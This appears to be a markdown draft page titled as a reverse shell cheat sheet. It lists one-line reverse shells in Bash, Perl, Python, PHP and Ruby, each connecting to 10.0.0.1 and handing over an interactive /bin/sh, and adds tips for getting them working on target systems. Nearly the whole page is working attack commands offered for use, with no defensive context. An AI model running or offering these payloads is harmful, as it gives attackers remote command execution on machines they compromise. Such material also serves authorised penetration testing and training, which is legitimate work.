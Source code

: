 ```yaml
---
title: Collecting Together Reverse Shell Cheat Sheets
published: false
---
```


# Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

 bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:

 perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

There’s also an alternative PERL revere shell here.

# Python

This was tested under Linux / Python 2.7:

 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

 php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

# Ruby

 ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
